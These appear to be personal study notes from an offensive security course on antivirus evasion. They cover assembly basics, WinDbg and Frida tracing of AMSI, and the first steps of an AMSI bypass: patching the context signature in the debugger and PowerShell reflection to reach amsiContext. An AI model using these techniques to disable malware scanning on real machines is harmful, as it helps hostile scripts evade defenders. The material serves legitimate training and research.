

# Advanced Antivirus evasion

Some antivirus rely on cloud based resources and try to use AI to detect malicious behaviour

In this module, we’ll explore the impact of Windows Defender’s implementation of AMSI on 
PowerShell and Jscript. However, in order to do this, we must inspect the code at the assembly 
level. To that end, we’ll begin with an overview of assembly and then discuss the process of 
viewing code execution through the Windows Debugger.
32-bit (x86) and 64-bit (x86_64) versions of Windows 10. 
Although the differences between these versions may be subtle to the casual user, they are 
significant at the assembly level.

The stack typically stores the content of (higher-language) variables that are of static size and 
limited scope, whereas the heap is used for dynamic memory allocation and long-runtime 
persistent memory.
32-bit versions of Windows allocate 2GB of memory space to applications, ranging from the 
memory addresses 0 to 0x7FFFFFFF. 64-bit versions of Windows, on the other hand, support 
128TB (terabytes) of memory, ranging from 0 to 0x7FFFFFFFFFFF.

 

The call343 assembly instruction transfers 
program execution to the address of the function and places the address to execute once the 
function is complete on the top of the stack where ESP (or RSP) is pointing. Once the function is 
complete, the ret344 instruction is executed, which fetches the return address from the stack and 
restores it to EIP/RIP.

 On a 32-bit architecture, the __stdcall345 calling convention reads all 
arguments from the stack. However, the 64-bit __fastcall346 calling convention expects the first 
four arguments in RCX, RDX, R8, and R9 (in that order) and the remaining arguments on the stack.

# windbg introduction

bp command followed by a memory address or the name of a function

setting a breakpoint with kernel32 function - 

`bp kernel32!writefile` 

`g` - to continue execution

`p` - to step through instructions one at a time

we can use unassemble

`u` for unassemble

so we can perform
`u rip L5`

we can view all registers with `r` command

`r rax`

we can look at the enrite memory area with 
`dd`, - 32 bit values 
`dc`, - 32 bit values with ASCII representation
`dq`  - 64 bit values

we can edit using 
`ed rsp 0`

### 7.1.1.1 Exercises
1. Open WinDbg and attach to a Notepad process.
2. Set a software breakpoint and trigger it.
3. Step through instructions and display register and memory content

```
00007ffe`647aaae5 8b442458        mov     eax,dword ptr [rsp+58h] ss:000000ff`4a6aead8=00000007
0:000> g
Breakpoint 0 hit
KERNEL32!WriteFile:
00007ffe`65994fd0 ff258ac00500    jmp     qword ptr [KERNEL32!_imp_WriteFile (00007ffe`659f1060)] ds:00007ffe`659f1060={KERNELBASE!WriteFile (00007ffe`647aaa50)}
0:000> u rip L5
KERNEL32!WriteFile:
00007ffe`65994fd0 ff258ac00500    jmp     qword ptr [KERNEL32!_imp_WriteFile (00007ffe`659f1060)]
00007ffe`65994fd6 cc              int     3
00007ffe`65994fd7 cc              int     3
00007ffe`65994fd8 cc              int     3
00007ffe`65994fd9 cc              int     3
0:000> r rip
rip=00007ffe65994fd0
```
# Anti malware scan interface

At a high level, 
AMSI captures every PowerShell, Jscript, VBScript, VBA, or .NET command or script at run-time 
and passes it to the local antivirus software for inspection.

The unmanaged dynamic link library AMSI.DLL is loaded into every PowerShell and 
PowerShell_ISE process and provides a number of exported functions that PowerShell takes 
advantage of.

The AMSI exported APIs include AmsiInitialize, AmsiOpenSession, AmsiScanString, 
AmsiScanBuffer, and AmsiCloseSession.

When PowerShell is launched, it loads AMSI.DLL and calls AmsiInitialize, which takes two 
arguments as shown in the function prototype below:
```
HRESULT AmsiInitialize(
 LPCWSTR appName,
 HAMSICONTEXT *amsiContext
);
```
The first parameter is the name of the application and the second is a pointer to a context 
structure that is populated by the function. This context structure, named amsiContext, is used in 
every subsequent AMSI-related function.
Note that the call to AmsiInitialize takes place before we are able to invoke any PowerShell 
commands, which means we cannot influence it in any way.
Once AmsiInitialize is complete and the context structure is created, AMSI can parse the issued 
commands. When we execute a PowerShell command, the AmsiOpenSession358 API is called:
```
HRESULT AmsiOpenSession(
 HAMSICONTEXT amsiContext,
 HAMSISESSION *amsiSession
);
```
AmsiOpenSession accepts the amsiContext context structure and creates a session structure to 
be used in all calls within that session. This leads to the next two APIs that perform the actual 
captures.
AmsiScanString359 and AmsiScanBuffer360 can both be used to capture the console input or script 
content either as a string or as a binary buffer respectively

# Hooking with Frida

WinDbg breakpoints to trace the calls to the exported AMSI calls, but the Frida363
dynamic instrumentation framework offers a more flexible approach.

installing frida -

`pip install frida`

add the folder to you environement variable

```
C:\Users\misthios\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.10_qbz5n2kfra8p0\LocalCache\local-packages\Python310\Scripts
```

Then we can debug

```
>frida-trace -p 8464 -x amsi.dll -i Amsi*
```

Looking at AMSI

```
C:\Users\misthios>frida-trace -p 9592 -x amsi.dll -i Amsi*
Instrumenting...
AmsiOpenSession: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiOpenSession.js"
AmsiUninitialize: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiUninitialize.js"
AmsiScanBuffer: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiScanBuffer.js"
AmsiUacInitialize: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiUacInitialize.js"
AmsiInitialize: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiInitialize.js"
AmsiCloseSession: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiCloseSession.js"
AmsiScanString: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiScanString.js"
AmsiUacUninitialize: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiUacUninitialize.js"
AmsiUacScan: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiUacScan.js"
Started tracing 9 functions. Press Ctrl+C to stop.
           /* TID 0x24e4 */
116610 ms  AmsiCloseSession()
           /* TID 0x1268 */
116610 ms  AmsiOpenSession()
116610 ms  AmsiScanBuffer()
116720 ms  AmsiScanBuffer()
116735 ms  AmsiScanBuffer()
116751 ms  AmsiScanBuffer()
116751 ms  AmsiScanBuffer()
116751 ms  AmsiScanBuffer()
116767 ms  AmsiScanBuffer()
116767 ms  AmsiScanBuffer()
           /* TID 0x1e60 */
116798 ms  AmsiCloseSession()
           /* TID 0x1268 */
116798 ms  AmsiOpenSession()
116798 ms  AmsiScanBuffer()
```

We go to 
C:\Users\misthios\__handlers__\amsi.dll

and change the AmsiScanBuffer.js open process function as 

```
onEnter: function (log, args, state) {
 log('[*] AmsiScanBuffer()');
 log('|- amsiContext: ' + args[0]);
 log('|- buffer: ' + Memory.readUtf16String(args[1]));
 log('|- length: ' + args[2]);
 log('|- contentName ' + args[3]);
 log('|- amsiSession ' + args[4]);
 log('|- result ' + args[5] + "\n");
 this.resultPointer = args[5];
},
```

and onLeave function as

```
onLeave: function (log, retval, state) {
 log('[*] AmsiScanBuffer() Exit');
 resultPointer = this.resultPointer;
 log('|- Result value is: ' + Memory.readUShort(resultPointer) + "\n");
}
```

### 7.2.2.1 Exercises
1. Use Frida to trace innocent PowerShell commands and fill out the onEnter and onExit
JavaScript functions of AmsiScanBuffer to observe how the content is being passed.
2. Enter malicious commands and try to bypass AMSI detection by splitting strings into 
multiple parts.

done

# Bypassing AMSI refelction in powershell

we can drop in form of strings however it quickly becomes cat and mouse.

# What context mom ?

When we examined each of the AMSI Win32 APIs, we found that they all use the context structure 
that is created by calling AmsiInitialize. 

Since this context structure is undocumented, we will use Frida to locate its address in memory 
and then use WinDbg to inspect its content. As before, we will open a PowerShell prompt and a 
trace it with Frida. Then, we’ll enter another “test” string to obtain the address of the context 
structure

amsi context: 0x2c8cc81d510

`dc address`

000002c8`cc81d510  49534d41 00000000 cc84db40 000002c8  AMSI....@.......
000002c8`cc81d520  c95e5410 000002c8 00000d62 00000000  .T^.....b.......
000002c8`cc81d530  00000000 00000000 c9c080fe 90000b00  ................
000002c8`cc81d540  cc81d540 000002c8 c94e7340 000002c8  @.......@sN.....
000002c8`cc81d550  cc81dbe0 000002c8 c94e7a61 000002c8  ........azN.....
000002c8`cc81d560  00000000 00000020 c9cf80fb 90000c00  .... ...........
000002c8`cc81d570  cc81d570 000002c8 c94e7b20 000002c8  p....... {N.....
000002c8`cc81d580  c94d6980 000002c8 c94e7341 000002c8  .iM.....AsN.....

`u amsi!AmsiOpenSession`

00007ffc`e9b63840 e9c3c81914      jmp     00007ffc`fdd00108
00007ffc`e9b63845 4885c9          test    rcx,rcx
00007ffc`e9b63848 7442            je      amsi!AmsiOpenSession+0x4c (00007ffc`e9b6388c)
00007ffc`e9b6384a 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007ffc`e9b63850 753a            jne     amsi!AmsiOpenSession+0x4c (00007ffc`e9b6388c)
00007ffc`e9b63852 4883790800      cmp     qword ptr [rcx+8],0
00007ffc`e9b63857 7433            je      amsi!AmsiOpenSession+0x4c (00007ffc`e9b6388c)
00007ffc`e9b63859 4883791000      cmp     qword ptr [rcx+10h],0

``

we go to the place where AMSI is defined and then

```
0:014> bp amsi!AmsiOpenSession
```
```
0:014> g
Breakpoint 0 hit
amsi!AmsiOpenSession:
00007fff`c75c24c0 e943dcdb0b jmp 00007fff`d3380108
```
```
0:006> dc rcx L1
000001f8`62fa6f40 49534d41 AMSI
```
```
0:006> ed rcx 0
```
```
0:006> dc rcx L1
000001f8`62fa6f40 00000000 ....
````
```
0:006> g
```
then `amsiutils`

this requires manual intervention

instead lets go for non manual implementation directlyform powershell.

`$a=[Ref].Assembly.GetTypes()`

`Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}`

`$c.GetFields('NonePublic,Static')`

```
PS C:\Users\WIN10RED> $c.GetFields('NonPublic,Static')


Name                   : amsiContext
MetadataToken          : 67114382
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.IntPtr
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}

Name                   : amsiSession
MetadataToken          : 67114383
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.IntPtr
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}

Name                   : amsiInitFailed
MetadataToken          : 67114384
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.Boolean
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}

Name                   : amsiLockObject
MetadataToken          : 67114385
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.Object
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}
```

```
PS C:\Users\Offsec> $d=$c.GetFields('NonPublic,Static')
PS C:\Users\Offsec> Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}
PS C:\Users\Offsec> $f.GetValue($null)
3061447775504
```
converting to hex:
0x2C8CC81D510


